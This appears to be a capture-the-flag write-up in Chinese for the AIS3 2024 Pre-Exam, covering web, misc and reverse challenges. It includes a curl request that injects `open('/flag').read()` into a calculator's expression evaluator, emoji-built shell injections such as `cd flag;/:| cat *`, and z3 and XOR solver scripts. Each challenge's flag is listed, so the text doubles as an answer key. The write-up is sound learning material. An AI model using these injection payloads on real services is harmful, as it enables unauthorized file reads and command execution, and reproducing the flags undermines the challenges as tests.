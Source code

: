 ```yaml
---
title: AIS3 2024 Pre-Exam Writeup
date: 2024-06-08 20:43:15
tags: ['CTF']
categories: ['Competition']
description: AIS3 2024 Pre-Exam 解題記錄
---
```


## Web

### Evil Calculator 

後端只有擋空格與底線使用open function即可bypass

```bash
curl --header "Content-Type: application/json" \
  --request POST \
  --data "@payload" \
  http://chals1.ais3.org:5001/calculate
```

payload
```json
{
    "expression": "open('/flag').read()"
}
```
flag: `AIS3{7RiANG13_5NAK3_I5_50_3Vi1}`

## Misc

### Three Dimensional Secret 

pcapng檔後段有給3DP用的Marlin G-code
丟給Cura或Online G-code Viewer會得到如下圖之結果

![image](gcode.png)
flag: `AIS3{b4d1y_tun3d_PriN73r}`

### Emoji Console 

每一個emoji對應一組符號 利用🐱 ⭐可組合出`cat *`將後端原始碼印出
搭配對照表利用💿 🚩😓😑 🐱 ⭐湊成`cd flag;/:| cat *`輸出`flag-printer.py`

```py
#flag-printer.py

print(open('/flag','r').read())
```

將後半段替換成🐍 ⭐(`cd flag;/:| python *`) 🉐 flag
flag: `AIS3{🫵🪡🉐🤙🤙🤙👉👉🚩👈👈}`

## Reverse

### The Long Print

依照decompile的結果去除delay的部分照寫一遍即可解出flag

![image](decompile.png)

```python
secret = b'\x46\x41\x4b\x45\x0b\x00\x00\x00\x7b\x68\x6f\x6f\x0a\x00\x00\x00\x72\x61\x79\x5f\x02\x00\x00\x00\x73\x74\x72\x69\x08\x00\x00\x00\x6e\x67\x73\x5f\x06\x00\x00\x00\x69\x73\x5f\x61\x05\x00\x00\x00\x6c\x77\x61\x79\x07\x00\x00\x00\x73\x5f\x61\x6e\x04\x00\x00\x00\x5f\x75\x73\x65\x09\x00\x00\x00\x66\x75\x6c\x5f\x00\x00\x00\x00\x63\x6f\x6d\x6d\x01\x00\x00\x00\x61\x6e\x7a\x7d\x03\x00\x00\x00'

key = b'\x01\x10\x01\x3a\x0d\x1b\x4c\x4c\x2d\x00\x0b\x3a\x40\x4f\x45\x00\x1a\x32\x04\x31\x1d\x16\x2d\x3e\x31\x0a\x12\x2c\x03\x11\x3e\x0d\x2c\x00\x1a\x0c\x32\x14\x1d\x04\x00\x31\x00\x1a\x07\x08\x18'

secret_list = []
key_list = []

for i in range(0, len(secret), 4):
    secret_list.append(int.from_bytes(secret[i:i+4], "little"))
for i in range(0, len(key), 4):
    key_list.append(int.from_bytes(key[i:i+4], "little"))

flag = ""

mask = (1 << 8) - 1

for i in range(0, 24, 2):
    chunk = key_list[secret_list[i+1]] ^ secret_list[i]
    for j in range(4):
        flag += chr((chunk >> (j * 8)) & mask)
print(flag)
```

flag: `AISE{You_are_the_master_of_time_management!!!!?}`

### 火拳のエース 

輸入字串在經過`xor_strings` function後讓每個buffer的字元用以下`complex_function`內的運算進行處理後再與設定之密文進行比較

![image](decompile2.png)

可利用z3求解如下所示

```python
from z3 import *

index = []
index.append([i for i in range(8)])
index.append([i + 0x20 for i in range(8)])
index.append([i + 0x40 for i in range(8)])
index.append([i + 0x60 for i in range(8)])

key = []
key.append(b'\x0e\x0d\x7d\x06\x0f\x17\x76\x04')
key.append(b'\x6d\x00\x1b\x7c\x6c\x13\x62\x11')
key.append(b'\x1e\x7e\x06\x13\x07\x66\x0e\x71')
key.append(b'\x17\x14\x1d\x70\x79\x67\x74\x33')

secret = []
secret.append("DHLIYJEG")
secret.append("MZRERYND")
secret.append("RUYODBAH")
secret.append("BKEMPBRE")

for ind, k, sec in zip(index, key, secret):
    result = []
    for i, c in enumerate(sec):
        x = Int("x")
        s = Solver()
        s.add(x > 0x40, x < 0x5b)
        offset = ord(c) - 0x41
        ivar = ind[i] % 3 + 3
        if ind[i] % 3 == 0:
            s.add((((x - 0x41 + ind[i] * 0x11) % 0x1a) * ivar + 7) % \
                  0x1a == offset)
        elif ind[i] % 3 == 1:
            s.add((ivar * 2 + ((x - 0x41 + ind[i] * 0x11) % 0x1a)) % \
                  0x1a == offset)
        elif ind[i] % 3 == 2:
            s.add(((((x - 0x41 + ind[i] * 0x11) % 0x1a) - ivar) + 0x1a) % \
                  0x1a == offset)
        s.check()
        m = s.model()
        result.append(m[x].as_long())
        # print(m[x].as_long())
    
    for i, r in enumerate(result):
        print(chr(k[i] ^ r), end="")
print()

```

flag: `AIS3{G0D_D4MN_4N9R_15_5UP3R_P0W3RFU1!!!}`
